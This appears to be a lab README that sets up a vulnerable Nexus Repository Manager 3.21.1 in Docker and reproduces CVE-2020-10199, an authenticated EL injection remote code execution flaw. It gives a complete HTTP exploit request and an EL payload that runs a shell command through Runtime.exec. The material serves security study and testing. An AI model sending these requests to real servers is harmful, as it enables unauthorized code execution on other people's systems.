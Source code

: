 # Nexus Repository Manager 3 Authenticated Remote Code Execution (CVE-2020-10199)

[中文版本(Chinese version)](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

In the version <= 3.21.1, a EL injection vulnerability has been discovered that allows for an attacker with any type of account on Nexus Repository to execute arbitrary code by crafting a malicious request to Nexus Repository.

References:

- https://support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md
- https://github.com/jas502n/CVE-2020-10199

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.21.1:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus. Login the admin panel with account `admin:admin` and finish the initialize wizard.

## Exploit

Copy your cookie and CSRF token then send following request:

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 203
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: [csrf-token]
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=[csrf-token]; NXSESSIONID=[session-id]
Connection: close

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```

![](1.png)

Refer to <https://github.com/jas502n/CVE-2020-10199>, use EL expression payload `$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}` to execute command `touch /tmp/success`.
